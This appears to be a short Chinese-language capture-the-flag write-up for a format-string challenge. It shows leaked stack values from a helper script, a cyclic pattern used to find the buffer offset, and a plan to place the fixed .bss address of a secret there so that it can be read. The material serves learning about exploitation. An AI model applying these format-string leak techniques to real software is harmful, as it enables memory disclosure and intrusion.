 可以寫入兩次 fmt ，因此第一次可以 print secret ，第二次就可以直接輸入，最大值為 0x20 = 32

編寫 fmt-1_list.py 列出 1-100 個 fmtstr 值 secret 在 bss 段，並且因為沒有 ASLR ，所以地址固定為

0x404050

但似乎找不到該地址在 stack 上

```
./fmt-1_list.py | grep '0x4'
PIE:      No PIE (0x400000)
b'Input:0x4013a5\n'
b'Input:0x401360\n'
b'Input:0x4010d0\n'
b'Input:0x401360\n'
b'Input:0x401213\n'
b'Input:0x40a2ea675129fdf5\n'
b'Input:0x4010d0\n'
b'Input:0x4010d0\n'
b'Input:0x4010fa\n'
b'Input:0x400040\n'
b'Input:0x4\n'
```

因此改找寫入的值，

```
./fmt-1_list.py | grep '61' 
b'Input:0x6161616270243825baaacaaadaaaeaaafaaagaaahaaa\xc2Input:Bye!\n'
b'Input:0x6161616461616163baaacaaadaaaeaaafaaagaaahaaa\xc2Input:Bye!\n'
b'Input:0x6161616661616165aaacaaadaaaeaaafaaagaaahaaa\xc2Input:Bye!\n'
b'Input:0x6161616861616167aaacaaadaaaeaaafaaagaaahaaa\xc2Input:Bye!\n'
61
b'%61$paaacaaadaaaeaaafaaagaaahaaa'
```

這裡取得 0x6161616661616165aaacaaadaaaeaaafaaagaaahaaa ，該值在 %10$p 而 0x65 為 'e' ，因此由 e 往後取 8 個就是 offset ，由 aaadaaae 第一個 a 開始寫入，該位置填入 0x404050
如果該解法無法正常運行請參考 fmt-2 也有一樣的手法

經過分析可以發現 data 為 long 因此 %s ，靠 ( 255/256)^16 的運氣

![./img/Untitled%20111.png](./img/Untitled%20111.png)
